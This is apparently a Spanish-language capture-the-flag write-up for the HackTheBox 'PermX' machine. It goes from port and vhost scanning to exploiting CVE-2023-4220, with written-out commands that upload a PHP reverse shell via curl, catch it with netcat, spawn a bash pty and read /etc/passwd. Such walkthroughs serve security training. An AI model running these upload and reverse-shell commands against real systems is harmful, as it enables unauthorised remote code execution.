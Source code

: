 # Reconocimiento
sudo nmap -sS -sV -A --min-rate 5000 --open -vvv -Pn 10.10.11.23

# Resultado

| port | state | service | reason | version |
|------|-------|---------|--------|---------|
| 22 | open | ssh |  syn-ack | OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0) |
| 80 | open | http |  syn-ack | Apache httpd 2.4.52 |

- Copiamos la ip en la url de nuestro navegador.
- revisamos la web cargada.
- encontramos la url (http://permx.htb/).

# Copiamos la url en el archivo
- cd nano /etc/hosts
- ip 10.10.11.23 http://permx.htb/
- guardamos con ctrl + s
- ctrl + x

# Realizamos un escaneo con
> whatweb -v -a 3 http://permx.htb/ 

# Encontramos

| Resultado |
|-----------|
| Summary   : Apache[2.4.52], |
|  Bootstrap[5.0.0] |
| Email[permx@htb.com] |
| HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)] |
| JQuery[3.4.1] |

# Ataque de directorio con Gobuster

| ataque | estado |
|--------|--------|
| sudo gobuster vhost -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://permx.htb --append-domain | grep -v "Status: 302" | exitoso |

| resultado |
|-----------|
| lms.permx.htb |

# Reconocimiento de la nueva url encontrada con whatweb

|Ataque|
|------|
| whatweb -v -a 3 http://lms.permx.htb/index.php |


|resultados|
|----------|
| Apache |
| Version      : 2.4.52 (from HTTP Server Header) Google Dorks: (3)  
| Website     : http://httpd.apache.org/ |

# CVE

- CVE-2023-4220

- Investigamos en internet la revershell que podriamos usar con este CVE
- Descargamos la shell
- La enviamos al servidor 

curl -F 'bigUploadFile=@sheel.php' 'http://lms.permx.htb//main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported' 

- Nos colocamos en escucha

| nc |
| sudo nc -lvnp 9001 |

- Ejecutamos la Revershell

curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/sheel.php'

- Ingresamos al servidor y importamos una libreria de python para obtener una bash

| importamos bash |
| python3 -c 'import pty;pty.spawn("/bin/bash")' |


- Buscamos la existencia de otros usuarios

> cat /etc/passwd | grep -i sh$


